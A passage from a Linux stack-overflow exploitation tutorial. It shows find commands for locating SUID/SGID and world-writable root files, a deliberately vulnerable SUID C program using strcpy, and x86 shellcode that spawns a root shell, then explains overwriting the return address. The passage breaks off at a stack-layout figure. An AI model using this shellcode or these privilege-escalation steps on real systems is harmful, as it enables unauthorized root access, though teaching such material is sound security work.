 This find command starts in the root directory (/) and looks for all files that match mode 002000 (SGID) or mode 004000 (SUID). The -type f option causes the search to be restricted to files. For the basic attack you can use the root owned, world writable files and directories. These files and directories can be listed by using the following find command:

```
[root@bakawali /]# find / -user root -perm  -022
```

You can set/unset SUID or SGID privileges with the chmod command. For example:

```
chmod 4xxx file_name    or    chmod +s file_name   - SUID
chmod 2xxx file_name                               - GUID
```

## Example No.1 - Exploit Demonstration

In our exploit example we are going to overflow the stack using a SUID program. In this exploit we as normal user are going to spawn a local root shell by overflowing the program owned by root. The vulnerable program used is shown below. This is a SUID program.

```c
/* test.c */
#include <unistd.h>

int main(int argc, char *argv[])
{
	char buff[100];
	/*if no argument…*/
	if(argc <2)
	{
		printf("Syntax: %s <input string>\n", argv[0]);
		exit (0);
	}
	strcpy(buff, argv[1]);
	return 0;
}
```

The shellcode used to spawn a root shell is as follows:

```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

In our vulnerable program we have declared an array buff[100] of size 100. We use vulnerable functions, strcpy(), that do not do the bound checking of the input. We are going to overflow the stack of this program by supplying more than 100 characters until the return address is properly overwritten and pointing back to the stack which we have stored our ‘**root spawning**’ shellcode. By simple observation and calculation, the stack frame for this program should be as follows:

<img src="images/image060.png" /><br />
Figure 1: Spawning a root shell exploit - a stack layout.
